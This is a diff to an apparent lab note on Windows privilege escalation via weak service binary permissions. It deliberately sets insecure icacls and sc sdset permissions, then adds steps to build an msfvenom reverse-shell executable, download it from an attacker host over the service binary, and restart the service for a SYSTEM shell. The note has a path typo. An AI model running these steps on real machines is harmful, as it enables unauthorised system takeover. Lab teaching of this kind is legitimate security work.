

Edit Weak Service Binary

Changed region(s): [[0.0, 0.0, 1.0, 0.9528]]

diff --git a/Notes/WeakServiceBinaryPermissions.md b/Notes/WeakServiceBinaryPermissions.md
@@ -31,16 +31,22 @@ mkdir "C:\Program Files\CustomSrv2\"
 
 2) Download the file [Service2.exe](/Lab-Setup-Binary/Service2.exe) to the 'C:\Program Files\CustomSrv2' directory.
 
-3) Grant write privileges to BUILTIN\Users for the 'Service2.exe' binary:
+3) Grant modify privileges to BUILTIN\Users for the service folder:
 
 ```
-icacls "C:\Program Files\CustomSrv2\Service2.exe" /grant BUILTIN\Users:W
+icacls "C:\Program Files\CustomSrv2\Service2.exe" /grant BUILTIN\Users:M
 ```
 
 4) Install the new Service:
 
 ```
 New-Service -Name "Vulnerable Service 2" -BinaryPathName "C:\Program Files\CustomSrv2\Service2.exe" -DisplayName "Vuln Service 2" -Description "My Custom Vulnerable Service 2" -StartupType Automatic
+```
+
+5) Edit new service's permissions to be controlled by BUILTIN\Users:
+
+```
+cmd.exe /c 'sc sdset "Vulnerable Service 2" D:(A;;CCLCSWRPWPDTLOCRRC;;;SY)(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;BA)(A;;CCLCSWLOCRRC;;;AU)(A;;CCLCSWRPWPDTLOCRRC;;;PU)(A;;RPWP;;;BU)'
 ```
 
 Outcome:
@@ -123,7 +129,6 @@ Outcome:
 - The service automatically starts after machine boots.
 - The Local System runs the service.
 - The service is running.
-- The current user can stop the service.
 
 ### Tool Enumeration
 
@@ -147,14 +152,39 @@ To abuse this vulnerability you should follow these steps:
 sc stop "Vulnerable Service 2"
 ```
 
-2) 
+Outcome:
+
+![Weak-Service-Binary-Exploitaion-Part-1](/Pictures/Weak-Service-Binary-Exploitaion-Part-1.png)
+
+2) Create with msfvenom a malicious exe file:
+
+```
+msfvenom -p windows/x64/shell_reverse_tcp LHOST=eth0 LPORT=1234 -f exe > Service2.exe
+```
+
+3) Open a listener in your kali machine.
+
+4) Transfer and overwrite the Service2.exe file with the malicious binary:
+
+```
+iwr -Uri http://<ip>:<port>/Service2.exe -Outfile C:\Program Filese\CustomSrv2\Service2.exe
+```
+
+5) Start the service with the following command or reboot the machine:
+
+```
+sc start "Vulnerable Service 2"
+```
+6) Verify the reverse shell on your Kali machine:
+
+![Weak-Service-Binary-Permissions-Reverse-Shell](/Pictures/Weak-Service-Binary-Permissions-Reverse-Shell.png)
 
 ## Mitigation
 
 To defend against Weak Service Binary Permissions vulnerabilities, adjust permissions on Service executables initiated through this mechanism. This limits unauthorized access and strengthens security measures:
 
 ```
-icacls "C:\Program Files\CustomSrv2\Service2.exe" /remove:g BUILTIN\Users:(W)
+icacls "C:\Program Files\CustomSrv2\Service2.exe" /remove:g BUILTIN\Users:(M)
 ```
 
 ## References
